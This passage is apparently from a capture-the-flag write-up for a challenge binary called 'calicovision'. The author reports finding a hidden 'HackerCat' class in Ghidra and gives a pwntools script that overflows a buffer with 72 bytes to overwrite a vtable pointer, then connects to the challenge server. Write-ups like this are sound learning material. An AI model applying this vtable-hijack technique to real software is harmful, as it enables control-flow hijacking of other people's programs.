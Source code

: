 After some more rooting around in ghidra, I found that there is a fourth hidden breed of cat, the `HackerCat`, which does not occur naturally in the cat generation. I decided to create one (by overwriting a cat's vtable pointer to the one for a `HackerCat` (0x005b0058 + 16)) and then pet it. Here's my exploit script:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./calicovision
from pwn import *
import re

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./calicovision')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote('calicovision.wpi-ctf-2022-codelab.kctf.cloud',1337)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
init-pwndbg
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments

io = start()

print(io.recvuntil(b'>>> '))

io.sendline(b'B')

print(io.recvuntil(b': '))

pl = b'A'*72
pl += p64(0x005b0058 + 0x10) # hacker cat vtable + 0x10

io.sendline(pl)

print(io.recvuntil(b'>>> '))

```